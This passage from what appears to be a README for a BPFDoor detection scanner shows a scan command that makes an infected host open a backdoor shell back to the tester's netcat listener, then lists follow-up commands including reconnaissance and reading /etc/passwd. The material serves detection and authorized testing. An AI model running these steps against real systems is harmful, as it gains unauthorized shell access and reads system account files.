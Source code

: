**Step 2: Run the scanner from another terminal**
```bash
# Scan target network for BPFDoor infections
python3 enhanced_bpfdoor_scanner.py 192.168.1.0/24 -p 8022,8080,8443 -i 192.168.1.50 -l 9000 -v
```

**If BPFDoor is detected, you'll see backdoor connections in your netcat session!**

### Advanced Testing Commands

Once connected via backdoor, try these commands:
```bash
# System information
whoami
uname -a
pwd

# Network reconnaissance  
ip addr show
netstat -an

# File system access
ls -la
cat /etc/passwd

# Process enumeration
ps aux | head -10

# Exit backdoor session
exit
```

🎥 **[Watch the complete testing tutorial](https://www.youtube.com/watch?v=YOUR_VIDEO_LINK_HERE)** to see:
- Advanced testing environments and scenarios
- Realistic backdoor simulation and response
- Professional penetration testing techniques
- Real-world deployment considerations

*The video contains exclusive testing methodologies and simulation setup not available in documentation!*

## ⚠️ Important Security Notes

### Usage Guidelines
- **✅ Authorized testing only** - Use only on networks you own or have explicit permission to test
- **✅ Isolated environments** - Recommended for security labs and research
- **✅ Educational purposes** - Designed for defensive security and awareness

### Network Requirements
- **Direct connectivity** - Scanner and targets must be able to communicate
- **Firewall considerations** - Ensure UDP responses can reach scanner
- **Cross-network testing** - More realistic than localhost testing
